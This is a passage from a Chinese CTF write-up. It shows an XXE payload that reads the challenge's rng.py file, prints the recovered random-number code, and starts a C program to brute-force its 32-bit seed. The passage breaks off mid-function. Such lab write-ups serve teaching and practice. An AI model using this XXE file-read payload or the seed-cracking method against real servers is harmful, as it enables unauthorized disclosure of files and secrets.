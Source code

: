 看！里面有flag，继续，阅读上面的源码，注意其中的unlock函数，实现首页的猜数字功能，我们要猜的期望值是由next(26)产生的，而next函数不在该页面中，看了一下第六行`from rng import *`,所以这里应该还有个rng.py,next函数应该就在其中，于是用payload:

`&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE xxe [&lt;!ELEMENT name ANY &gt;&lt;!ENTITY xxe SYSTEM "rng.py" &gt;]&gt;&lt;config&gt;&lt;location&gt;&amp;xxe;&lt;/location&gt;&lt;/config&gt;`

读取rng.py,源码如下：

```
def setup(seed):
    global state
    state = 0
    for i in xrange(16):
        cur = seed &amp; 3
        seed &gt;&gt;= 2
        state = (state &lt;&lt; 4) | ((state &amp; 3) ^ cur)
        state |= cur &lt;&lt; 2

def next(bits):
    global state

    ret = 0
    for i in xrange(bits):
        ret &lt;&lt;= 1
        ret |= state &amp; 1
        state = (state &lt;&lt; 1) ^ (state &gt;&gt; 61)
        state &amp;= 0xFFFFFFFFFFFFFFFF
        state ^= 0xFFFFFFFFFFFFFFFF

        for j in xrange(0, 64, 4):
            cur = (state &gt;&gt; j) &amp; 0xF
            cur = (cur &gt;&gt; 3) | ((cur &gt;&gt; 2) &amp; 2) | ((cur &lt;&lt; 3) &amp; 8) | ((cur &lt;&lt; 2) &amp; 4)
            state ^= cur &lt;&lt; j

    return ret

setup((random.randrange(0x10000) &lt;&lt; 16) | random.randrange(0x10000))
```

好吧，貌似有点复杂，读了几遍，大意明白了：先用一个2的32次方以内的seed值放入setup函数，生成state的初始值，然后主页接受到浏览器发送过来的code时就进入next函数，生成一个2**26以内的期望值，然后主页逻辑会将code与这个期望值比较，相等就能拿到第二个flag，关键这里state的状态变化太复杂了，实在看不出有啥破绽 (“▔□▔)/(“▔□▔)/，只好祭出暴力破解大法来爆破seed，使之满足计算出的第一个期望值与第二个期望值，注意这里爆破的seed范围为2的32次方，用python会非常慢，用C爆破效率高出许多：

```
#include &lt;stdio.h&gt;

unsigned long long state = 0;
unsigned long long expected_code1 = 12350614;
unsigned long long expected_code2 = 37524982;

void setup(unsigned int seed)`{`
    state = 0;
    unsigned long long cur = 0ll;
    for(unsigned i=0;i&lt;16;i++)`{`
        cur = seed &amp; 3;
        seed &gt;&gt;= 2;
        state = (state &lt;&lt; 4)|((state &amp; 3ll) ^ cur);
        state |= cur &lt;&lt; 2;
    `}`
`}`

unsigned long long next(unsigned int bits)`{`
    unsigned long long ret = 0l;
    for(unsigned int i=0;i&lt;26;i++)`{`
```